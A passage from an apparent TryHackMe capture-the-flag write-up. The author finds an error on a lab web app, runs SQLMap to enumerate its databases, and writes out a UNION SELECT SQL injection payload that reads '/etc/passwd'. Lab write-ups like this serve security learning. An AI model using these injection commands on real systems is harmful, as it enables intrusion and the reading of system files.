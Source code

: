 ![Alt text](<../../../assets/images/THMPics/Pasted image 20231228151834.png>)

I got an  error, that's a good hint! To automate the process I used **SQLMap** :

```bash
sqlmap -u "http://10.10.203.181:8000/download?id=" --dbs
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231228152031.png>)

After playing around the database, nothing useful found, so I went to do it manually. I said let's try to read local files suing the UNION SELECT query, and it worked :

```bash
'+UNION+SELECT+"file:///etc/passwd"+--+-
```
